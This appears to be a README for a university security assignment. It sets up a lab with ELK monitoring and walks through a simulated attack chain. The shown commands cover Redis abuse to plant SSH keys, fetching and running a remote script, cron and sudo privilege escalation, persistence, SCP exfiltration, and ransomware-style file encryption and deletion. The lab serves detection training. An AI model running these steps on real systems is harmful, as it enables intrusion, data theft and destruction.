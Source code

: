 # Preparing the Setup (Pre-requisites)

## Change docker-desktop settings (increase RAM and max virtual memory required by ELK)
- Go to %UserProfile%
- Create a file .wslconfig
- Edit to include the following below:

```
# Settings apply across all Linux distros running on WSL 2
[wsl2]
kernelCommandLine = "sysctl.vm.max_map_count=262144"
# Limits VM memory to use no more than 5 GB, this can be set as whole numbers using GB or MB
memory=5GB
```
References:
- https://mrakelinggar.medium.com/set-up-configs-like-memory-limits-in-docker-for-windows-and-wsl2-80689997309c
- https://stackoverflow.com/questions/69214301/using-docker-desktop-for-windows-how-can-sysctl-parameters-be-configured-to-per
- https://gist.github.com/audionerd/d7d77d9af080a7a87d9b

# Setting up the Attack Environment

1. Bring up all the containers:
```
vagrant up --no-parallel
```
2. Start metricbeat in the ELK container. Open the terminal (docker terminal or external) and enter:
```
service metricbeat start && metricbeat setup -e
```

# Exploit Manual/Steps
1. Reverse shell into the target
```
sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

# Accepts the prompt to trust connection
yes
```
Should the connection not work (still asked for password), run the following commands again:
```
printf "keys *\nconfig set dir /home/resch/.ssh\nconfig set dbfilename 'authorized_keys'\nsave\nexit" | redis-cli -h 172.18.0.2

sudo ssh -i ~/.ssh/id_rsa resch@172.18.0.2

yes
```

2. Download all attack scripts which also executes privilege escalation exploiting Crobjob
```
wget https://raw.githubusercontent.com/S692/ICT3204C1G5/main/Gp5_import_scripts_and_PE.sh && chmod +x Gp5_import_scripts_and_PE.sh

# Downloads scripts and run PE exploit
./Gp5_import_scripts_and_PE.sh

# ONLY IF YOU did not successfully become root, execute the following command:
cd /home/resch/.scripts
./Gp5_PEexploitSudo.sh
```
3. Run the attack chain scripts chaining persistence to encryption
```
cd /home/resch/.scripts
./Gp5_attack_chain.sh
```
Alternatively, it can be executed one by one:
```
cd /home/resch/.scripts
./check.sh
pip3 install -r ./requirements.txt
./Gp5_persistence1.sh
./Gp5_file_and_dir_discovery.sh
./Gp5_collectiontarget.sh
./Gp5_exfiltration_target.sh
python3 Gp5_encrypt.py fndd-stripped.txt
```
4. After exfiltration, the encrypted exfiltrated files can be decrypted on the attacker's machine
```
cd ~
./Gp5_after_exfiltration_attk.sh
cd /home/vagrant/exfiltrated/exfiltrate_backups_decrypted
ls -la
```
# Information on the project files
### Attack Scripts/Files
- Gp5_PEexploitCron.sh
  - Privilege excalation via cronjob wildcard injection
- Gp5_PEexploitSudo.sh
  - Privilege escalaion via Sudo heap overflow vulnerability
- Gp5_persistence1.sh && Gp5_persistence2.sh
  - Persistence to enable other scripts to run on startup
- Gp5_file_and_dir_discovery.sh && Gp5_file_and_dir_discovery-stripped.sh
  - List directories and files of potential interest
- Gp5_collectiontarget.sh
  - Crontab with RSYNC to automatically add files into exfiltration destination folder
- Gp5_exfiltration_attk.sh
  - Setup collection point for the files that will be exfiltrated later on
- Gp5_exfiltration_target.sh
  - Encrypt and exfiltrate files out using SCP via SSH to the target machine
- Gp5_after_exfiltration_attk.sh
  - Used to decrypt exfiltrated files
- Gp5_encrypt.py
  - Used to encrypt and delete files listed from file and directories discovery
- check.sh
  - Check for dependencies for Gp5_encrpy.py to execute successfully
- requirements.txt
  - List of dependencies needed for encryption and deletion (impact)
- Gp5_import_scripts_and_PE.sh
  - Script to import the scripts above into the target machine for execution
  - Runs Gp5_PEexploitCron.sh once all files have been downloaded
---
### Container Setup Files
- Gp5_setup.sh
  - Used to setup and download all the dependencies and files needed for the simulation attack to work on the target machine.
- Gp5_attk_setup.sh
  - Used to setup and download all the dependencies/files needed on the attacker's machine, to successfully exploit the target.
---
### Logs and Monitoring Tools (Beats) Setup files
- auditbeat.yml
  - Preconfigured Auditbeat configuration file that will be replaced with the one in the target system.
- filebeatConf.py
  - Replaces keywords in the Filebeat configuration file.
- redis.yml
  - Redis module configuration file that exists in Filebeat.
- system.yml
  - System module configuration file that exisits in Filebeat.
- metricbeat.yml
  - Main configuration file of metricbeat that will be replaced with the one in the installed system.
- kibana.yml
  - Enable Stack Monitoring and allows configuration of other monitoring features.
### Importing & Viewing Kibana Dashboard
1. Navigate to http://localhost:5601 and select Stack Management from the menu.
2. On the Stack Management page, click on Saved Objects under Kibana from the menu.
3. Select the Import button on the right side of the screen and click on "Select a file to import". Choose a file from your device to import into Kibana. In this case, it would be "Gp5_kibana-dashboard-export.ndjson".
4. To view the dashboard, search for "ICT3204 Assignment" in the Saved Objects searhbox, and select the item found. 
